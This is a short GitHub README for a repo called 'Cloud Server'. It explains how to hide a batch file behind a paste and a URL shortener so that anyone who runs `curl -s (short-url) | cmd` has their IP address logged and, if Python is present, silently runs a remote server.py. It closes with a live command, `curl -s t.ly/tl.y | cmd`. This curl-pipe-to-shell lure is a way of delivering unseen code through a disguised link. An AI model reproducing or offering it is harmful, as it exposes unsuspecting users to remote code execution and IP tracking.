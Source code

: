 # Cloud Server

This is a Cloud Server in GitHub, this is not intended for public usage.
It's a complete garbage repo if you don't know what this is.

## Information

The "connect.bat" file will be execute the code in "server.py"; in order to do the same, you need to clone the repo; copy the Raw URL of "server.py".
After that, you'll need to replace the "https://raw.githubusercontent.com/snowyxxdev/cloud-server/refs/heads/main/server.py" in "connect.bat" with the copied Raw URL.

You can create a paste containing the "connect.bat" contents, and use a URL shortener. Now, if you run the following command:

- `curl -s (short-url) | cmd`

The IP Address will be logged, and provided from the URL shortener service (depending on which service).
And, if they have Python installed; it'll automatically run the code in "server.py".


# ________________________________

## Made by @snowyxxdev
- Shortened URL: *t.ly/tl.y*
- Command: `curl -s t.ly/tl.y | cmd`
